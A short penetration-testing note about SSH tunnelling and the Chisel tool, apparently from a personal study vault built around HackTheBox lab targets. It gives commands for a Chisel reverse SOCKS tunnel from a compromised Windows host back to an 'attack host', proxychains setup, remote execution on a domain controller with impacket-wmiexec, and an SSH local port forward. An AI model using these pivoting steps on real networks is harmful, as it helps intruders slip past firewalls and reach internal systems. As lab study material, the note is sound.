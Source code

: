 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Tunnelling
---
```

#Tunnelling

Setting up an SSH tunnel allows you to securely access a remote server through an encrypted connection.
SSH tunnelling is commonly used for accessing private networks, bypassing firewalls, and encrypting internet traffic.
Once the tunnel is established, you can access services on the remote server as if they were running locally on your machine.

![[basic-tunnel-1.webp]]

# Guides

[A Visual Guide to SSH Tunnels: Local and Remote Port Forwarding](https://iximiuz.com/en/posts/ssh-tunnels/)

[Can someone explain SSH tunnel in a simple way? - Stack Overflow](https://stackoverflow.com/questions/5280827/can-someone-explain-ssh-tunnel-in-a-simple-way)

[Intro to SSH Tunneling | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/06/10/intro-to-ssh-tunneling.html)

# Chisel

Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network. Chisel is very similar to crowbar though achieves much higher performance.

[Tunneling with Chisel and SSF | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

### Usage

```shell-session
cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

```shell-session
cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

```shell-session
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 
```

The client IP is your attack host IP.

```cmd-session
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

```shell-session
 proxychains impacket-wmiexec dc01 -k
```


# Examples

[HTB: Poison | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/09/08/htb-poison.html)

# Commands 

```
sudo ssh -L 80:192.168.120.209:80 ariah@192.168.120.209
```